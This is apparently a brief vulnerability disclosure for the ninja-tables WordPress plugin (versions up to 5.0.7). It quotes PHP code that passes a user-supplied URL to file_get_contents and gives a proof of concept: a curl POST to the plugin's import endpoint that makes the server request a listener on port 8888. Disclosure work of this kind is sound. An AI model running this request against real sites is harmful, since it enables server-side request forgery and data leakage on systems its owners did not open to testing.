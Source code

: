 ### Ninja-tables

- **Application**: ninja-tables<= v5.0.7

- **Threat Impact**: Sensitive data leakage

- **Code**: 

  ```
  public function extracted($request) {
    $url = $request->get('url');
    static::importFromURL($url);
  }
  
  public static function importFromURL($url) {
    file_get_contents($url);
  }
  ```

- **POC**:

  1. Listen on 8888 on server side
  1. Login and get a nonce. `curl -b .cookies -X POST "http://site/wp-json/ninjatables/v2/import/default" -H "X-WP-NONCE:nonce" -d "format=dragAndDrop&do_unicode=no&url=http://localhost:8888"`
  1. Receive a request on server side. 
